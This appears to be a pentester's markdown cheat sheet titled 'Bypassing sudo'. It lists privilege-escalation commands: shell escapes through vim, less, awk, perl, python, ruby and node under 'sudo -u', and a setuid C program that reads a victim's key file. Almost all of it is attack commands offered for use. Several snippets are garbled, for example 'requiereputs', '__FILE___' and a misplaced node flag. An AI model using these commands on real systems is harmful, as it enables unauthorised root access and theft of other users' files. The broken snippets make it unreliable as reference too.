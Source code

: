 # Bypassing sudo

List privileges
```bash
sudo -l
```

Change user
```bash
sudo -u [username] [command]
```

## vim
```bash
sudo -u [username] vim
	:r [path file]
	:!/bin/bash/ 
```

## less
```bash
sudo -u [username] less [path file]
	:e [path file]
	:!/bin/bash  
```

## awk
```bash
sudo -u [username] awk '{print $1}' [path file]
```

```bash
sudo -u [username] awk 'BEGIN {system("/bin/bash")}'
```
## ls
```bash
setgid
```

```c
int main(void) {
	system("cat /home/victim/key.txt");
}
```

```bash
gcc -o /tmp/[file] [file].c
chmod +xs [file]
```

## perl
```perl
sudo -u [victim] perl -e '`/bin/bash`'
```

## python
```python
from subprocess import call
call(['command','path'])

import os 
os .system('/bin/bash')
```

## ruby
```ruby
sudo -u [user] ruby -e 'puts `id`'
sudo -u [user] ruby -e 'requiereputs "id"; IRB.start(__FILE___)'
```

## nodejs
```bash
sudo -u [user] -e node ''
var exec = require("child_process").exec;
exec("[COMMAND]", function (error, stdOut, stdErr) {
console.log(stdOut);
});
```

